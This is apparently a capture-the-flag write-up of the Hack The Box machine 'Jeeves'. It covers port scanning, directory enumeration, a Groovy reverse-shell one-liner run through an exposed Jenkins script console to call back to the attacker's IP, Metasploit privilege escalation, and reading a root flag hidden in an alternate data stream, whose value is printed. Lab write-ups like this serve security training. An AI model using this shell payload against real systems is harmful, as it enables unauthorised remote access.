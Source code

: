 ```yaml
---
URL: https://app.hackthebox.com/machines/114
---
```

## Port Scan

We get the following result when we run a port scan on the machine

```bash
$ sudo nmap -sS -p- -Pn 10.10.10.63 --min-rate=5000 -oN all
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 10:07 AEST
Nmap scan report for 10.10.10.63
Host is up (0.34s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 27.07 seconds

$ sudo nmap -sC -sV 10.10.10.63 -Pn -p80,135,445,50000     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 10:08 AEST
Nmap scan report for 10.10.10.63
Host is up (0.33s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m33s, deviation: 0s, median: 5h00m33s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-13T05:09:24
|_  start_date: 2025-07-13T05:06:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.45 seconds
```

We see the following services running on the machine.

1. `80`: Microsoft IIS HTTP server
2. `135`: Windows RPC
3. `445`: SMB Share
4. `50000`: Jetty http server

## Webserver on 80

When we visit the site we are greeted with the following page.

![[Jeeves_website.png]]

If we do a quick view page source we see all requests are forwarded to an `error.html` resource and none of the hyperlinks work.

```HTML
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

The `error.html` pages looks like an actual error at a glance, but upon further inspection we notice it is simply an image.

![[Jeeves_error.png]]

## Jetty Server on 50000

Since the webserver seemed like a dead end, we can try to enumerate the service on port `50000` to see whether there are any interesting directories.

```bash
$ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

When we visit the `askjeeves` end-point, we are greeted with a Jenkins server. Since we seem to have access to the script console (`Manage Jenkins > Script Console`) we can use a `Groovy` script to spawn a rev shell to our machine.

```Groovy
String host="10.10.14.19";int port=6666;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

If we check the privileges the user we have compromised has, we see that `SeImpersonatePrivilege` is enabled.

>[!warning] Could not run Rottenpotato
>Had trouble running the attack, the token would not show up under impersonation tokens. Try again another time. Instead used the `getsystem` command via metasploit to gain the root flag

```bash
meterpreter > getsystem 
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

meterpreter > cd Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  797   fil   2017-11-09 01:05:18 +1100  Windows 10 Update Assistant.lnk
100666/rw-rw-rw-  282   fil   2017-11-04 13:03:17 +1100  desktop.ini
100444/r--r--r--  36    fil   2017-12-24 18:51:10 +1100  hm.txt

meterpreter > cat hm.txt 
The flag is elsewhere.  Look deeper.
```

## Alternate Data Streams

```PowerShell
meterpreter > shell
Process 2964 created.
Channel 2 created.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,507,366,400 bytes free

C:\Users\Administrator\Desktop>more < hm.txt:root.txt:$DATA
more < hm.txt:root.txt:$DATA
afbc5bd4b615a60648cec41c6ac92530
```

Read more about alternate data streams [here](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)
